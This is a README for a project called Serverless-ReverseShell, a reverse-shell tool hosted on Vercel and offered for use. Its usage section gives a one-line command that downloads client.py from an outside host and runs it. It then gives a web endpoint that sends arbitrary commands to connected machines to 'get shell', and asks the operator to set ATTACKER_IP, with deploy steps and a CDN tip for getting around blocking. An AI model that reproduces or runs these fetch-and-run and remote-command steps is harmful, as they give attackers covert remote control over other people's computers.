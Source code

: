 
# Serverless-ReverseShell


## Demo

https://chat.fjh1997.top/

## Usage

Make client connect
```
wget https://chat.fjh1997.top/download -o client.py && python3 client.py
```
Then use https://chat.fjh1997.top/send?cmd=xxx to get shell!

## Running Locally

```bash
npm i -g vercel
vercel dev
```

Your application is now available at `http://localhost:3000`.

## One-Click Deploy

Deploy the example using [Vercel](https://vercel.com?utm_source=github&utm_medium=readme&utm_campaign=vercel-examples):

[![Deploy with Vercel](https://vercel.com/button)](https://vercel.com/new/clone?repository-url=https://github.com/fjh1997/Serverless-ReverseShell/tree/main/&&env=REDIS_URL)

Remember to set the environment variable REDIS_URL to the address from [redislabs](https://app.redislabs.com/)<br>
And also the ATTACKER_IP in  client.py :-) <br>
note: For chinese user,a cdn is needed as Vercel was blocked.
